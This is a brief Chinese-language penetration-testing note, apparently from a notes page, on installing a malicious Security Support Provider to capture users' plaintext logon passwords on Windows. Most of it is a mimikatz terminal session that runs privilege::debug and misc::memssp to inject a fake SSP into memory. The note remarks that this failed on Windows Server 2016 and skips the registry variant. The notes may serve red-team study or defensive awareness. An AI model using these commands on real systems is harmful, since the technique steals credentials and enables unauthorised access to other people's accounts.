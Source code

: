 可以自己写一个SSP，恶意SSP在系统登录的时候，获取到用户输入的明文密码

# 一、mimikatz 注入伪造的SSP
## 1、内存注入SSP
```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)

mimikatz # exit
Bye!

C:\Users\Administrator.SEC\Desktop\x64>
```

![](../images/457ade4e01d93ae8f2cf39611d43c219.png)

WIndows Server 2016失败

## 2、注册表添加SSP
略..